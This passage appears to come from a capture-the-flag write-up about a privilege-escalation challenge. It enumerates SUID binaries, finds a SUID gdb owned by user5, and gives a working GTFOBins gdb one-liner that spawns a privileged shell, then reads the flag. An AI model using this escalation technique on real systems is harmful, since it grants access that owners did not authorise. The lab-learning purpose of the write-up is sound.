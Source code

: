 Let's go back to the list of SUIDs. We missed a binary:

{% highlight bash %}
user4@unr21-echipe-escalation-7fbfb78995-g6jhp:/home/user4$ find / -perm -4000 2> /dev/null
/bin/su
/bin/umount
/bin/mount
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/gdb
/usr/bin/fixpermissions
/usr/bin/sudo
user4@unr21-echipe-escalation-7fbfb78995-g6jhp:/home/user4$ ls -lah /usr/bin/gdb
-rwsr-sr-x 1 user5 user5 7.7M Oct 14  2019 /usr/bin/gdb
user4@unr21-echipe-escalation-7fbfb78995-g6jhp:/home/user4$
{% endhighlight %}

[GTFOBins](https://gtfobins.github.io/gtfobins/gdb/) can help us once again:

{% highlight bash %}
$ gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
id
uid=1000(www) gid=3000(www) euid=1005(user5) egid=1005(user5) groups=1005(user5)
whoami
user5
cd /home/user5; ls
flag4.txt
cat flag4.txt
Do you think is nothing to do? What about another flag little shrimp.

Flag: ctf{fca862cbd46080db28cbe3c541a0de84db1bb53baf1242d5532c6338e5634a4b}

           \.   \.      __,-"-.__      ./   ./
       \.   \`.  \`.-'"" _,="=._ ""`-.'/  .'/   ./
        \`.  \_`-''      _,="=._      ``-'_/  .'/
         \ `-',-._   _.  _,="=._  ,_   _.-,`-' /
      \. /`,-',-._"""  \ _,="=._ /  """_.-,`-,'\ ./
       \`-'  /    `-._  "       "  _.-'    \  `-'/
       /)   (         \    ,-.    /         )   (\
    ,-'"     `-.       \  /   \  /       .-'     "`-,
  ,'_._         `-.____/ /  _  \ \____.-'         _._`,
 /,'   `.                \_/ \_/                .'   `,\
/'       )                  _                  (       `\
        /   _,-'"`-.  ,++|T|||T|++.  .-'"`-,_   \
       / ,-'        \/|`|`|`|'|'|'|\/        `-, \
      /,'             | | | | | | |             `,\
     /'               ` | | | | | '               `\
                        ` | | | '